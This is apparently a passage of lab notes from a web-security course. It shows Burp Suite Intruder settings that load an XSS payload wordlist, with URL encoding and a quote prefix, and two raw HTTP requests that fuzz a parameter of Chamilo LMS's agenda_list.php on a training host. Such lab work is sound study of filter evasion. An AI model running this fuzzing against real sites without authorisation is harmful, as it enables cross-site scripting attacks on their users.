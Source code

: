 ![Lab - Chamilo LMS 2](./assets/encoding_filtering_and_evasion_basics_lab_chamilo_lms_2.png)

`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /home/kali/tools/SecLists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.txt/XSS-BruteLogic.txt` = `Payload encoding: URL-encode: enabled` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
 GET /main/calendar/agenda_list.php?type=personal§TESTING§ HTTP/2
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /home/kali/tools/SecLists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.txt/XSS-BruteLogic.txt` = `Payload processing: Add prefix: ' ` = `Payload encoding: URL-encode: enabled` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
 GET /main/calendar/agenda_list.php?type=personal§TESTING§ HTTP/2
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
```